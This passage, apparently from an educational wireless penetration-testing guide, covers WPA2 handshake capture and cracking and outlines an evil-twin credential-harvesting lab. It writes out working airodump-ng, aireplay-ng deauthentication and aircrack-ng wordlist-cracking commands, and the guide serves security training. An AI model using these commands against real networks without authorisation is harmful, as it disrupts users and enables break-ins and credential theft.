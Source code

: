 ### Lab 2: WPA2 Handshake Capture
```bash
# Objective: Capture and crack WPA2 handshake
# Setup: WPA2 network with known weak password

# 1. Monitor target network
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa2_lab wlan0mon

# 2. Deauthenticate client
aireplay-ng -0 3 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# 3. Verify handshake capture
aircrack-ng wpa2_lab-01.cap

# 4. Dictionary attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa2_lab-01.cap
```

### Lab 3: Evil Twin Attack Simulation
```bash
# Objective: Create fake access point for credential harvesting
# Warning: Only perform in isolated lab environment

# 1. Create hostapd configuration
# 2. Set up DHCP server
# 3. Configure captive portal
# 4. Test client connection and credential capture
# 5. Analyze captured data
```

---

## References and Further Reading

### Technical Standards
- [IEEE 802.11 Wireless LAN Standard](https://standards.ieee.org/standard/802_11-2016.html)
- [Wi-Fi Alliance Security Specifications](https://www.wi-fi.org/discover-wi-fi/security)
- [RFC 5216: EAP-TLS Authentication Protocol](https://tools.ietf.org/html/rfc5216)

### Security Resources
- [NIST Guidelines for Securing Wireless Networks](https://csrc.nist.gov/publications/detail/sp/800-153/final)
- [OWASP Wireless Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [SANS Wireless Security Resources](https://www.sans.org/white-papers/wireless/)

### Training and Certification
- [SANS SEC617: Wireless Penetration Testing and Ethical Hacking](https://www.sans.org/cyber-security-courses/wireless-penetration-testing-ethical-hacking/)
- [EC-Council Certified Wireless Security Professional (CWSP)](https://www.eccouncil.org/programs/certified-wireless-security-professional-cwsp/)
- [Offensive Security Wireless Professional (OSWP)](https://www.offensive-security.com/wifu-oswp/)

---

*This content is provided for educational purposes only. All wireless security testing techniques should be used only in authorized testing environments with proper permissions. Unauthorized wireless network testing is illegal and can result in severe penalties.*